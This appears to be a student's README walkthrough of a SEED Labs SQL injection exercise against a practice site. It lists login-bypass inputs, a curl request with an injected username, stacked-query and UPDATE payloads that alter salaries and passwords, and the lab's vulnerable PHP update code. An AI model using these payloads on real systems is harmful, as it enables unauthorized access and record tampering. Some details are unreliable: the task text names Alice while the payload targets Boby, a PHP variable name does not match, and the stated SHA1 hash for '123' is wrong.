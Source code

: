 # SQL-Injection-attack-lab

### Task 1:

	Log in MYSQL:
  
//code

		mysql -u root -pseedubuntu
    
		mysql> use Users;
    
		mysql> show tables;
    
	Use such a SQL query:
  
//code

		select * from credential where Name='Alice';

![Untitled](Pics/task%201.png)

### Task 2:

--> Task 2.1

	.USERNAME: "Admin' #"
  
	.PASSWORD: "xyz" (here is password is optional)

	We will result in SQL Query
  
//code

		SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
    
		FROM credential
    
		WHERE name='Admin' #' && password='xyz'
    
--> Task 2.2

	1- Write Code on Terminator in Seed Lab:
  
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
  
	2- Copy the HTML code.
  
	3- Make a new file in location "file:///home/seed/Documents/temp.html"
  
	4. Run this location on browser

![Untitled](Pics/task%202.2.png)

--> Task 2.3

	inject statment to append a row to current database:
  
//code

	INSERT INTO credential (name,eid) VALUES('abc', '17422');
  
	After row inserted, go to browser and input as:
  
	.USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('abc','17422') #"
  
	.PASSWORD: "" (blank field)

![Untitled](Pics/task%202.3.png)

(optional lines)

	PHP's mysqli extension, involes mysqli::query API to handle SQL statement,
  
doesn't support for multiple queries with in the same run. Of course, the design of this API 
attributes to concern of SQL injection.

### Task 3

EDIT profile can be run on line "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

--> Task 3.1

	1- Login as Username= 'Alice' && Password = xyz,
  
	2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
  
	3- Update Phone Number as ', Salary=1000000 and save.
  
--> Task 3.2

	1- Login as Username= 'Boby' #' and then open edit profile
  
	2- Update Phone Number: ',Salary=0 and remaining unchanges



	Login as Alice
  
		Assume login as Boby and keep Alice login too. Open Alice profile edit
    
	Update Phone Number: ', Salary=1 where name='Boby' #
  
  ![Untitled](Pics/task%203.2.png)
  
--> Task 3.3

	We're login as Boby but change password of Alice
  
//backend code

	$conn = getDB();
  
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
  
	if($input_pwd!='')
  
  {// In case password field is not empty.
  
	$hashed_ = sha1($input_pwd);
  
	//Update the password stored in the session.
  
	$_SESSION['pwd']=$hashed_pwd;
  
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
  
	}else{
  
	// if passowrd field is empty.
  
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";}
  
	$conn->query($sql);
  
	$conn->close();
  
	header("Location: unsafe_home.php");
  
	exit();

Updation will be on Phone Number field;

Let Boby password as '123'. We must get SHA1 value of new password via some tool as: c0b656d5e415ca1a8e098a408f913ec229e120b6
  
Constuct Phone Number:', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #
  
Save it and changes works accordingly. 

![Untitled](Pics/task%203.3.png)


